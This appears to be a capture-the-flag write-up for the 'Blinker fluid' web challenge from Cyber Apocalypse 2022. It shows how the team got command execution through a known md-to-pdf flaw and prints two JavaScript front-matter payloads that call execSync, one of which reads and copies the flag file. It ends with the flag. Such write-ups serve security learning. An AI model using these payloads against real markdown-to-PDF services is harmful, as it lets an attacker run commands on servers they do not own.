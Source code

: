 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2022 | Blinker fluid Writeup
desc: Check out our writeup for Blinker fluid for Cyber Apocalypse 2022 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2022
parent: cyber_apocalypse_2022
category: web
challenge: Blinker fluid
tags: "web, bobby, legend, starry, twh, node, cve"
date: 2022-05-21T00:00:00+00:00
last_modified_at: 2022-05-21T00:00:00+00:00
---
```



> Solved By : Bobbysox, Legend, Starrylord, thewhiteh4t

In blinker fluid challenge our markdown input gets converted into a PDF file available for download.

in the site source we checked `package.json` file :

```json
{
        "name": "blinker-fluids",
        "version": "1.0.0",
        "description": "",
        "main": "index.js",
        "scripts": {
                "start": "node index.js"
        },
        "keywords": [],
        "author": "rayhan0x01",
        "license": "ISC",
        "dependencies": {
                "express": "^4.17.3",
                "md-to-pdf": "^4.1.0",
                "nunjucks": "3.2.3",
                "sqlite-async": "1.1.3",
                "uuid": "8.3.2"
        },
        "devDependencies": {
                "nodemon": "^1.19.1"
        }
}
```

interesting things in this file are : 

```
"md-to-pdf": "^4.1.0"
"nunjucks": "3.2.3"
```

we quickly found the following CVE for `md-to-pdf` : 

https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880

payload as shown in the link : 

```
---js\n((require("child_process")).execSync("id > /tmp/RCE.txt"))\n---RCE
```

the payload did not work for us as it is so we looked for more info on the same and found this : 

https://github.com/11ty/eleventy/issues/1208


[11ty/eleventy#1208](https://github.com/11ty/eleventy/issues/1208)

so basically nunjucks was having issues with single line payload so we settled on the following : 

```
---js
((require("child_process")).execSync("cat ../flag.txt > static/invoices/rce.txt"))
---
```

line 1 and 3 needed to be exactly as above for it to work and we redirected flag to a file in invoices directory…

```
HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}
```